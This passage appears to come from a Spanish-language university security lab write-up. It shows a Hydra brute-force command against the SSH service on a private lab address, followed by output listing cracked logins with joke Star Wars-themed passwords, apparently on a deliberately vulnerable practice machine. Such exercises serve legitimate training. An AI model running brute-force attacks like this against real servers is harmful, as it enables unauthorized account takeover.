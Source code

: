 ![Listado de usuarios y contraseñas en la base de datos](img/ej3-7.png)

4. Añadimos esos nombres y contraseñas a nuestras lista de usuarios y passwords. Esto ahora lo usaremos con otra vulnerabilidad detectada por `OpenVas`, la cual nos indicaba que el servidor `SSH` es vulnerable a ataques por fuerza bruta. A continuación, veremos el comando así como la salida del mismo.
    ```bash
    hydra -L /home/seguridad2324/users.txt -P /home/seguridad2324/password.txt 192.168.1.75 ssh
    Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 11:20:47
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 225 login tries (l:15/p:15), ~15 tries per task
    [DATA] attacking ssh://192.168.1.75:22/
    [22][ssh] host: 192.168.1.75   login: leia_organa   password: help_me_obiwan
    [22][ssh] host: 192.168.1.75   login: luke_skywalker   password: like_my_father_beforeme
    [22][ssh] host: 192.168.1.75   login: han_solo   password: nerf_herder
    [22][ssh] host: 192.168.1.75   login: artoo_detoo   password: b00p_b33p
    [22][ssh] host: 192.168.1.75   login: c_three_pio   password: Pr0t0c07
    [22][ssh] host: 192.168.1.75   login: ben_kenobi   password: thats_no_m00n
    [22][ssh] host: 192.168.1.75   login: anakin_skywalker   password: but_master:(
    [22][ssh] host: 192.168.1.75   login: jarjar_binks   password: mesah_p@ssw0rd
    [22][ssh] host: 192.168.1.75   login: lando_calrissian   password: @dm1n1str8r
    [22][ssh] host: 192.168.1.75   login: boba_fett   password: mandalorian1
    [22][ssh] host: 192.168.1.75   login: jabba_hutt   password: my_kinda_skum
    [22][ssh] host: 192.168.1.75   login: greedo   password: hanSh0tF1rst
    [22][ssh] host: 192.168.1.75   login: chewbacca   password: rwaaaaawr8